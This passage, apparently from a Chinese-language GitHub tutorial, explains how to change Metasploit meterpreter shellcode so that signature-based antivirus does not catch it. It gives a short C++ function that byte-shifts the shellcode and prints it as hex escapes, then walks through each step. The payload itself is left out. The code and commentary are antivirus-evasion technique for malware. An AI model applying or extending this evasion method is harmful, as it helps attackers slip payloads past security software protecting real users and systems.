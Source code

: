 ### SHELLCODE 处理
想要不被杀软拦截，重点就在修改shellcode上。反病毒软件通过二进制特征码，判断可执行文件是否为病毒文件。我们生成的 meterpreter shellcode 不用思考，肯定是在杀软的病毒特征码仓库的。

#### encry_shellcode 函数
这里我们自己写一个函数，先对我们刚刚生成的 `shellcode` 进行简单的处理。
```cpp
#include <iomanip>
#include <iostream>

void encrypt_shellcode(unsigned char* shellcode, size_t size) {
  // 简单加密
  for (size_t i = 0; i < size - 1; i++) {
    if (shellcode[i] == 0x00) {
      shellcode[i] += 0x05;
    } else {
      if ((shellcode[i] - 0x01) != 0x05) {
        shellcode[i] -= 0x01;
      }
    }
  }
  // 循环输出
  for (size_t i = 0; i < size - 1; i++) {
    std::cout << std::hex << "\\x"
              << std::setfill('0')
              << std::setw(2)
              << (unsigned int)(byte)shellcode[i];
  }
  std::cout << std::endl;
}

int main() {
  unsigned char shellcode[] = "...";
  encrypt_shellcode(shellcode, sizeof(shellcode));
  system("pause");
  return 0;
}
```
`encrypt_shellcode` 函数对shellcode进行了一个简单的加密。
1. 遍历shellcode每一个字符除了末尾的 `\0`
2. 如果当前字符等于 `0x00` 我们将当前字符加上 `0x05`
3. 其他不等于 `0x00` 的字符，当它减 `0x01` 不等于 `0x05` 时, 我们将它减去 `0x01`
4. 遍历输出
